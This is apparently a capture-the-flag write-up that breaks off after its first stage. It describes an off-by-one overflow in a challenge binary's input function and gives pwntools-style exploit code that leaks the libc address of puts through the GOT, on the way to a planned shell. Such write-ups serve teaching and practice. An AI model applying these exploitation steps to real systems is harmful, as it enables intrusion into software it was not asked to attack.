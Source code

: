 ## The Vulnerability :
The vulnerability lies in the `take_input(char *buf, size_t len)` function, which is supposed to get at most `len` characters, but looking at the loop:

```   
    int i = 0;
    while (i <= len && c != '\n') {
        c = getchar();
        buf[i] = c;
        i++;
    }
    buf[i] = 0;
```
we can see that this function can take up to `len + 1` characters because of the `while (i <= len && c != '\n')`. It sould've been `while (i < len && c != '\n')`(strict < without the =).


## Initial Analysis
The binary is dynamically linked to the libc, so we'll make use of the `system` function to spawn a shell after leaking an address of libc.

So, roughly speaking, the exploitation path is using the oob write to leak and modify GOT addresses. 

## Stage 1: Leak a GOT libc address

The binary has no PIE protection, therefore the address of the GOT section is known, and those of all the other sections as well.

I chose the `puts`'s GOT entry that is stored in `0x405008` to leak, and to do so, we overwrite the pointer of `description` with `0x405008`: the address is inserted byte by byte in order to bypass the `take_input` checks.

```
    for i in range(0, lim):
        if i > 0:
            resp = p.recv()
        p.sendline(b"3")
        p.recv()
        payload = b"a"*16 + b"\x08" + b"\x50"*(int(i>0)) + b"\x40"*(int(i>1)) + b"\x00\x00"*(int(i>2))
        payload += b"\x00\x00"*(int(i>3)) + b"\x00"*(int(i>4)) + b"\x00"*(int(i>5)) + b"\x00"*(int(i>6))
        p.sendline(payload)
```

 and then call the `display()` function to print the libc address of `puts`:
 ```
 p.sendline(b"5") # get the libc leak
 puts_addr = get_leak(p) # Parsing recv() data
 ``` 


## Stage 2: Overwrite a GOT entry
